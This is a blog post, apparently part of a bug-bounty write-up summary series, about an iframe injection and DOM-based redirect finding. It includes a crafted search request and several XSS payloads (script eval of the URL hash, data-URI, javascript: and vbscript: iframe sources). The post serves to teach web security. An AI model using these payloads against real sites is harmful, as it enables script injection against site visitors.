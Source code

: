 ```yaml
---
layout: post
title:  Bug-Bounty-Writeups-Summary-2
date:   2019-10-29 
categories: Bug-Bounty-Writeups-Summarry
comments: false
---
```

Hello friends, Here is Part 2 of Bug Hunting Writeup Summary ->

#### 1. https://medium.com/@chawdamrunal/when-i-found-iframe-injection-and-illegal-redirect-dom-based-cfbbcec21a7

When i found iframe injection and illegal redirect (dom based) - By MRunal

First lets know about iFrame Injection ->

An iframe is an HTML document embedded inside another HTML document
An iframe attack is when a hacker/attacker embeds malicious code in your website page that executes various malicious instructions.

An iFrame injection is a very common cross site scripting (or XSS) attack. It consists of one or more iFrame tags that have been inserted into a page or post’s content and typically downloads an executable program or conducts other actions that compromise the site visitors’ computers.

Iframe injection, which occurs when a frame on a vulnerable web page displays another web page via a user-controllable input.

Let's move to the writeup -->

* He got an GET  endpoint parameter -> 

        GET /search.jsp?query=%3Ciframe%20src=%22https://google.com/?%22%3E%3C/iframe%3E HTTP/1.1
        Host: ****.net

![](https://miro.medium.com/max/1317/1*HUtjRWSvhqA6iBKw4CX4Zg.png)

* So, we can see google.com there in iframe 
* Then he used some payloads like ->


`http://target.com/something.jsp?query=<script>eval(location.hash.slice(1))</script>#alert(1)`

`<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe> (Firefox, Chrome, Safari)`

`</iframe><iframe src="vbscript:msgbox(1)"></iframe> (IE)<iframe src="data:text/html,<script>alert(0)</script>"></iframe> (Firefox, Chrome, Safari)`
`<iframe src="javascript:alert(1)">`
`<iframe src="vbscript:msgbox(1)"></iframe> (IE)`

* Accepting user-supplied data as iframe source URL may lead to malicious content being loaded within the Visualforce page.

Frame Spoofing vulnerabilities occur when:
1. Data enters a web application through an untrusted source.
2. The data is used as an iframe URL without being validated.
